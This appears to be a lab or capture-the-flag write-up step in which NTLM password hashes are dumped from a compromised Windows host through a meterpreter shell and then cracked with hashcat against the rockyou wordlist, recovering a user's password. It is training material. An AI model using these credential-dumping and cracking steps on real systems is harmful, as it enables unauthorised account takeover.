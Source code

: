 
### TASK 4 Cracking
We can now dump the stored password hash from meterpreter shell

    meterpreter > hashdump
    Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
    meterpreter > 


Save these information and we can now start cracking the password hash

copy and paste these hash data into a text file and save in the hard drive

    $ hashcat -m 1000 Jon /usr/share/wordlists/rockyou.txt                                                                                      
    hashcat (v6.2.6) starting                                                                                                                     
                                                                                                                                                
    OpenCL API (OpenCL 3.0 PoCL 3.0+debian  Linux, None+Asserts, RELOC, LLVM 13.0.1, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]  
    ============================================================================================================================================  
    * Device #1: pthread-11th Gen Intel(R) Core(TM) i7-1165G7 @ 2.80GHz, 1441/2946 MB (512 MB allocatable), 4MCU                                  
                                                                                                                                                
    Minimum password length supported by kernel: 0                                                                                                
    Maximum password length supported by kernel: 256                                                                                              
                                                                                                                                                
    Hashes: 3 digests; 2 unique digests, 1 unique salts                                                                                           
    Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
    Rules: 1

    Optimizers applied:
    * Zero-Byte
    * Early-Skip
    * Not-Salted
    * Not-Iterated
    * Single-Salt
    * Raw-Hash

    ATTENTION! Pure (unoptimized) backend kernels selected.
    Pure kernels can crack longer passwords, but drastically reduce performance.
    If you want to switch to optimized kernels, append -O to your commandline.
    See the above message to find out about the exact limits.

    Watchdog: Temperature abort trigger set to 90c

    Host memory required for this attack: 0 MB

    Dictionary cache built:
    * Filename..: /usr/share/wordlists/rockyou.txt
    * Passwords.: 14344392
    * Bytes.....: 139921507
    * Keyspace..: 14344385
    * Runtime...: 0 secs

    31d6cfe0d16ae931b73c59d7e0c089c0:                          
    ffb43f0de35be4d9917ac0cc8ad57f8d:alqfna22                 
                                                            